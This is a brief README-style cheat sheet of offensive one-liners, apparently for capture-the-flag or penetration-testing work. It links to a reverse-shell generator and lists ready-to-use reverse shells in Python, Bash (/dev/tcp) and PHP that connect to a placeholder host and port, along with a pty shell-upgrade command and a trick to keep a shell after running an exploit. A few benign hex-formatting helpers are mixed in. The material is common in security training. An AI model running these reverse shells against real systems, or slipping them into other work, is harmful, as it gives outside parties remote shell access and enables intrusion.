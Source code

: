 
# Useful Scripts & Commands 🧰

## Scripts:

- [Revshell generator](https://github.com/AmitNiz/useful_stuff/blob/master/scripts/revshell_generator.py)

## Commands:

### Python 

- Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`

- Print an address in little endian:
      
       python -c "import struct; print(struct.pack('<I',0xdeadbeef))"


- Oneline python revshell:


      python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{HOST_IP}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        
- Shell upgrade: 

      python -c "import pty;pty.spawn('/bin/bash')"

### Bash

- Maintain shell after running an exploiting: `(./exploit ; cat ) | ./vuln`
- Simple Bash revshell: 
    
      bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1

### PHP

- Oneline revshell: 

      php -r '$sock=fsockopen("{HOST_IP}",{PORT});exec("/bin/sh -i <&3 >&3 2>&3");'
